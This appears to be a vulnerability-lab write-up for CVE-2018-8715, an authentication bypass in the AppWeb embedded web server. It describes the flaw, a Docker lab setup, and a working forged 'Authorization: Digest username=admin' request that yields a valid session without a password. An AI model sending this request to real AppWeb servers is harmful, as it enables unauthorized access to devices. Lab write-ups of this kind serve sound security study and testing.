


AppWeb Authentication Bypass vulnerability (CVE-2018-8715)¶
AppWeb is an embedded Web Server based on an open source GPL agreement that was developed and maintained by Embedthis Software LLC. It is written in C/C++ and can run on almost any modern operating system. Of course, it aims to provide a Web Application container for embedded devices.
AppWeb can be configured for authentication, which includes the following three authentication methods:
basic, traditional HTTP basic authenticationdigest, improved HTTP basic authentication. At this mode, the Cookie will be used to authentication instead ofAuthorizationheader.form, HTML based form authentication
In the Appweb versions before 7.0.3, have a logic flaw related to the authCondition function in http/httpLib.c. With a forged HTTP request, it is possible to bypass authentication for the form and digest login types.
Reference link:
Vulnerability environment¶
Launch an Appweb 7.0.1 server with digest authentication by executing the following command:
docker compose up -d
To access http://your-ip:8080, you need to enter your account password.
Exploit¶
The current username is admin, so you can use following request to bypass the authentication:
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin
As you can see, since we did not pass in the password field, the server error occurred with a 200 status code and the session setting header:

The page can be accessed normally with this session header:
